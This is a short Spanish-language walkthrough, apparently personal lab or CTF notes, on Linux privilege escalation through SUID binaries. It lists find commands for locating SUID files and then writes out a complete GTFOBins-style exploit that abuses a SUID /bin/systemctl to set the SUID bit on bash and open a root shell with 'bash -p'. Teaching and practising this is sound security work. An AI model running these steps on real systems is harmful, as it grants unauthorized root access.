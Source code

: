  lo primero que vamos a hacer es una búsqueda de permisos SUID con el siguiente comando.
find / -perm -4000 -ls 2>/dev/null 
o este 
find / -user root -perm -4000 -print 2>/dev/null

![[Pasted image 20230830174332.png]]
para mas información sobre permisos SUID visitar el siguiente enlace 
https://itsfoss.com/es/linux-suid-guid-sticky-bit/

listo ahora que sabemos que binarios son "vulnerables"
![[Pasted image 20230901214828.png]]
podemos buscar en GTFobins que da una muy buena base de datos sobre metodos para explotar las vulnerabilidades de los binarios
si hacemos un ls -lah /usr/bin/sudo  vemos lo siguiente :
![[Pasted image 20230901215222.png]]
y todos los binarios que aparecieron en la búsqueda.  tienen la estructura -rwsr-xr-x root root
fijémonos en el binario /bin/systemctl
![[Pasted image 20230901215515.png]]
tiene permisos SUID vamos a escalar los privilegios usando lo siguiente
`#!/bin/bash`
`TF=$(mktemp).service`
`echo` `'[Service]`
`Type=oneshot`
`ExecStart=``/bin/sh` `-c` `"chmod +s /bin/bash"`
`[Install]`
`WantedBy=multi-user.target' > $TF`
`/bin/systemctl` `link $TF`
`/bin/systemctl` `enable` `--now $TF`
si todo ha salido bien 
debe aparecer algo como esto:
![[Pasted image 20230901223455.png]]
aqui tenemos que dar enter  y luego podemos ver si ya tenemos permisos en bash 
`which` `bash` `|` `xargs` `ls` `-la`
![[Pasted image 20230901222652.png]]
ahora hacemos un bash -p
y ya somos root
![[Pasted image 20230901222749.png]]
